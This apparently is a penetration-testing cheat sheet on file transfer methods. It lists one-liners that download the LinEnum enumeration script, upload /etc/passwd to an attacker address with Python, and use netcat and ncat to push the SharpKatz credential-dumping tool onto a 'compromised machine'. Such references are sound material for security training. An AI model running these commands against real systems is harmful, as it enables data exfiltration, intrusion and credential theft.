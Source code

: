 ## Other Languages
### Ruby - Download a File
- `ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'`

### Perl - Download a File
- `perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'`

# Upload Operations using Python3
## Starting the Python uploadserver Module
- `python3 -m uploadserver `

## Uploading a File Using a Python One-liner
- `python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'`

# Miscellaneous File Transfer Methods
## Netcat
### NetCat - Compromised Machine - Listening on Port 8000
- `nc -l -p 8000 > SharpKatz.exe`

### Ncat - Compromised Machine - Listening on Port 8000
- `ncat -l -p 8000 --recv-only > SharpKatz.exe`

### Netcat - Attack Host - Sending File to Compromised machine
- `nc -q 0 192.168.49.128 8000 < SharpKatz.exe`

### Ncat - Attack Host - Sending File to Compromised machine
- `ncat --send-only 192.168.49.128 8000 < SharpKatz.exe`

### Attack Host - Sending File as Input to Netcat
- `sudo nc -l -p 443 -q 0 < SharpKatz.exe`

### Compromised Machine Connect to Netcat to Receive the File
- `nc 192.168.49.128 443 > SharpKatz.exe`

### Attack Host - Sending File as Input to Ncat
- `sudo ncat -l -p 443 --send-only < SharpKatz.exe`
